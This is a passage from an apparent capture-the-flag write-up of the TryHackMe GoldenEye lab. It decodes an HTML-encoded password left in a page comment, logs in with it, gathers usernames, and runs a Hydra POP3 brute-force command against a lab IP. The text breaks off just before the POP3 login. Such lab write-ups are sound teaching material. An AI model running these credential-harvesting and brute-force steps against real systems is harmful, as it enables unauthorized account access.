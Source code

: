 Checking the source code reveals an interesting HTML comment:

```ts
//
//Boris, make sure you update your default password. 
//My sources say MI6 may be planning to infiltrate. 
//I encoded your p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
```

This encoded string is in HTML decimal encoding. Decoding it yields:

```bash
InvincibleHack3r
```

So the credentials are: **boris : InvincibleHack3r**

The same page also hints at a login portal located at `/sev-home/`.

![Home Page](/ctf/tryhackme/golden-eye/login.png)

### Boris Login

Navigating to `/sev-home/` presents a login form. Using the credentials `boris:InvincibleHack3r` grants us access:

![Sev Home](/ctf/tryhackme/golden-eye/sev-home.png)

Inside the HTML source, we find a note:

```html
<!--
Qualified GoldenEye Network Operator Supervisors: 
Natalya
Boris
-->
```

This gives us another potential user: **natalya**.

## POP3 Bruteforce

With valid usernames and a running POP3 service, we attempt to brute force logins using Hydra.

```bash
hydra -l Boris -P /usr/share/wordlists/fasttrack.txt -f -s 55007 10.10.158.90 pop3
```

**Output:**

```bash
[55007][pop3] host: 10.10.158.90   login: Boris   password: secret1!
```

Now we can authenticate via POP3 as Boris:
